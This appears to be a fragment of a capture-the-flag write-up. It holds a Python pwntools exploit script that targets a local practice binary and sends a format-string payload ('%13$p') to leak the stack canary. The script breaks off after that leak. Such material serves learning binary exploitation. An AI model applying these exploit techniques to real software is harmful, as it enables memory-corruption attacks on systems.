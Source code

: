 [![](assets/1706146504-0ae0658f7f9fa1a8d16594b2d7106d32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233901-33417540-b873-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')
def duan():
    gdb.attach(p)
    pause()

sl('%13$p')
canary=int(r(18),16)
```